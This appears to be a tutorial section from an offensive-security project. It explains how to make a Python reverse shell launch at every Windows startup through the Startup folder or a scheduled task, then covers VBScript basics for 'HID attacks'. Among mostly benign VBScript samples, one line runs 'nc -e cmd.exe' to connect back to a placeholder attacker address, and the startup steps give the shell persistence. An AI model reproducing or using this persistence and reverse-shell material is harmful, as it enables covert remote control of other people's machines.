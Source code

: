 ### **Running the Script on Startup (Windows)**

To ensure that the reverse shell starts automatically when your Windows machine starts, you can place the script in the **Windows Startup folder** or use Task Scheduler. 

#### **Option 1: Add to Windows Startup Folder**

1. Open the **Startup folder** by pressing `Win + R`, typing `shell:startup`, and pressing Enter.
2. Create a shortcut to the Python script in this folder. Right-click the folder and choose **New** → **Shortcut**. Then, browse to your script (`reverse_shell.py`) and add it to the Startup folder.

Now, every time Windows starts, it will automatically run the script.

#### **Option 2: Use Task Scheduler**

1. Open **Task Scheduler** (`Win + R`, type `taskschd.msc`, and press Enter).
2. In the right pane, click **Create Task**.
3. In the **General** tab, give your task a name like `Reverse Shell`.
4. In the **Triggers** tab, click **New** and set the task to trigger **At startup**.
5. In the **Actions** tab, click **New**, and in the **Program/script** field, enter the path to Python (e.g., `C:\Python39\python.exe`).
6. In the **Add arguments (optional)** field, enter the full path to your `reverse_shell.py` script.
7. Click **OK** to create the task.

### ***Running HID Attack***

A **VBS (VBScript)** script is a file written in **Visual Basic Scripting Edition**, a lightweight programming language developed by Microsoft. It is used primarily for automation tasks, administrative scripting, and system management. VBS scripts can be executed directly in Windows using the Windows Script Host (WSH) without requiring additional software.


### **Basic Structure of a VBS Script**
A VBS script consists of commands and logic written in VBScript syntax. Here's a simple example:

#### Example: Displaying a Message Box
```vbscript
MsgBox "Hello, this is a VBScript!", vbInformation, "VBScript Example"
```
- **What it does**: Displays a pop-up message box with the text, "Hello, this is a VBScript!"

---

### **How to Run a VBS Script**
1. Save the script with a `.vbs` extension (e.g., `example.vbs`).
2. Double-click the file to execute it. The Windows Script Host (WSH) processes the script.
3. Alternatively, run it from the command prompt:
   ```cmd
   cscript example.vbs
   ```

---

### **Practical Examples**
#### **1. Open a Website**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "https://www.example.com"
```

#### **2. Automate File Operations**
```vbscript
Set fso = CreateObject("Scripting.FileSystemObject")
fso.CopyFile "C:\source\file.txt", "C:\destination\file.txt"
```

#### **3. Create a Startup Script**
```vbscript
Set objShell = CreateObject("WScript.Shell")
startupFolder = objShell.SpecialFolders("Startup")
Set link = objShell.CreateShortcut(startupFolder & "\example.lnk")
link.TargetPath = "C:\path\to\your\program.exe"
link.Save
```

#### **4. Run a Reverse Shell (for Educational Purposes Only)**
```vbscript
Set objShell = CreateObject("WScript.Shell")
objShell.Run "cmd.exe /k nc -e cmd.exe ATTACKER_IP ATTACKER_PORT"
```


You can create a `.vbs` (VBScript) file via the `echo` command using both single-line and multi-line approaches. Here's how:

---
### ***Create VBS or other file and write file via Shell***



### **Method 1: Single-Line Approach**
This is useful for small scripts that can fit in a single command.

#### Example: Create a `hello.vbs` Script
```cmd
echo MsgBox "Hello from VBScript!" > hello.vbs
```

- **Explanation**:
  - `echo` writes the text to a new file named `hello.vbs`.
  - The content of the file is `MsgBox "Hello from VBScript!"`.
  - To execute: 
    ```cmd
    cscript hello.vbs
    ```
    or just double-click `hello.vbs`.

---

### **Method 2: Multi-Line Approach**
For larger scripts, you need to use a `>>` operator to append multiple lines to the file.

#### Example: Create a More Complex VBScript
```cmd
echo Set objShell = CreateObject("WScript.Shell") > script.vbs
echo objShell.Run "notepad.exe" >> script.vbs
echo MsgBox "Notepad launched!", vbInformation, "VBScript Example" >> script.vbs
```

- **Explanation**:
  - The `>` operator creates the file and writes the first line.
  - The `>>` operator appends subsequent lines to the file.
  - This script:
    1. Creates a shell object.
    2. Launches `notepad.exe`.
    3. Displays a message box saying "Notepad launched!".

#### Execution:
To run the `script.vbs`:
```cmd
cscript script.vbs
```
or double-click `script.vbs`.
